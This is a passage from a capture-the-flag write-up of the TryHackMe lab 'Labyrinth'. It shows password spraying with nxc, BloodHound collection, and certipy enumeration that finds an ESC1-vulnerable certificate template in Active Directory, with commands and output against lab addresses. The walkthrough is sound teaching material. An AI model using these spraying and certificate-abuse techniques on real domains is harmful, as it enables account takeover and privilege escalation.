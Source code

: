 I couldn't crack any of these hashses using the `rockyou` wordlist.

Spraying the found password on the list of users could prove beneficial, I could find other users that could have that same password on the `AD`, but sadly it wasn't the case here, leaving me with only the following credentials

 ```bash
nxc smb labyrinth.thm.local -u users -p '<REDACTED>' --continue-on-success
<SNIP>
SMB         10.10.152.141   445    LABYRINTH        [+] thm.local\IVY_WILLIS:<REDACTED>
SMB         10.10.152.141   445    LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:<REDACTED>
<SNIP>
```

---

# Getting Back On The Right Path

For better enumeration of all of the environment, I used the `bloodhound-ce` tool for analysis and the `bloodhound-ce-python` for gathering the data

```bash
bloodhound-ce-python -d thm.local -ns 10.10.174.91 -dc labyrinth.thm.local --zip -c all -u "SUSANNA_MCKNIGHT" -p '<REDACTED>'
```

![NON](file-20250514011203342.png)

Enumerating the groups for the users that I have control, I can see that they are member of `CERTIFICATE SERVICE DCOM ACCESS`, which indicates that there is a `Certificate Service` running on the target host

![NON](file-20250514011356337.png)

## ADCS

Enumerating the [`ADCS`](/theory/windows/AD/adcs) with `certipy`, I found a certificate vulnerable to [`ESC1`](/theory/windows/AD/adcs#esc1), which lets me request a certificate for any user, even if I don't have the password for it, as long as the template allows it

```bash
certipy find -u SUSANNA_MCKNIGHT@thm.local -p '<REDACTED>' -vulnerable -stdout

Certificate Templates

Template Name                       : ServerAuth
Display Name                        : ServerAuth
Certificate Authorities             : thm-LABYRINTH-CA
Enabled                             : True
<SNIP>
[!] Vulnerabilities
ESC1                              : 'THM.LOCAL\\Domain Computers' and 'THM.LOCAL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
<SNIP>
```
> PS: There is another template vulnerable to `ESC1` on the `certipy` output, but the template is not enabled like this one, so I used the `ServerAuth` template for the attack
{: .prompt-warning}
